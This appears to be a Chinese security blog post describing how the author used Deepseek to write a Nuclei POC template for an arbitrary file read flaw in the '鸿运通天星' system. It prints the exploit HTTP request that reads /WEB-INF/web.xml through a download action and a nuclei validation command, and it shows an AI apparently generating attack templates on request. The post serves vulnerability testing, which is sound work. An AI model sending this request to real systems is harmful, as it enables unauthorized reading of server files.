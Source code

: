 #  让 Deepseek 帮我写 POC，又快又准确！   
原创 xazlsec  信安之路   2025-02-13 09:30  
  
大家好，新年伊始，作为一个自由职业者，很多事情都需要自己一人完成，信安之路上线了 POC 管理系统，有大量漏洞需要转写成 Nuclei 所支持的 POC 模板文件，目前平台已收录四千多 POC 文件，还有不少 POC 未实现转换，如今 AI 的能力日渐强大，不依赖 AI 之力，作为科技从业者，也说不过去。  
  
在 AI 领域，Deepseek 的横空出世，引起不少社会关注，今天尝试使用其，帮我完成 POC 的编写，发现效果非常不错，只需要告知其目标，即可为我提供结果。  
  
以鸿运通天星系统的任意文件读取漏洞为例：  
```
下面是一个鸿运通天星系统的任意文件读取漏的数据包，如果返回内容中包括 <web-app 则认为该漏洞存在，请编写一个完整的模板：

GET /StandardApiAction_downLoad.action?path=/WEB-INF/web.xml HTTP/1.1
Host: tg.xazlsec.ru:8080
Content-Length: 0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
```  
  
Deepseek 直接将写好的 POC 告知，并进行了解释，如下：  
  
![image-20250213172028757](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdA3tmFyfbMLanXPZV3iartg4ZdXeeIMPiaK0FFm5nk4FEYmQudohU3AYnFhDgPHL1R6IdRNhGBAQKQ/640?wx_fmt=png&from=appmsg "")  
  
将结果中的 poc 保存到本地，先不看测试效果，先看看 poc 有没有语法错误，使用参数验证一下：  
> nuclei -duc -t hongyun-arbitrary-file-read.yaml -validate  
  
  
![image-20250213172141250](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdA3tmFyfbMLanXPZV3iartgib4oVcDX5ibdu5wnkePVI8ady8Lp7SicJy69Zz1nibic6icljh3RvmjOuiahA/640?wx_fmt=png&from=appmsg "")  
  
测试无语法错误，那么尝试是否可以正确发现漏洞：  
  
![image-20250213172309569](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdA3tmFyfbMLanXPZV3iartg4sTH7Efnze0R9H5NhoNlNSrPWKoh8xyWV5G9C7GA1cZaO2IQpjQH2w/640?wx_fmt=png&from=appmsg "")  
  
最终发现漏洞存在，poc 无任何问题，所以直接使用 Deepseek 进行 POC 编写无任何问题，后面可以通过调用 API 完成自动化，为其提供数据包和验证方式，即可完成 POC 的编写，真正做到借助 AI 之力，达到事半功倍的效果。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfc1ibbG6mEdqV5Xpw0yu9UxtIoLlhiazxU4NakInEiam1mOnHHYw4pVq3nrrCc8tpnn5ictdhmNLUaHuA/640?wx_fmt=png&from=appmsg "")  
  

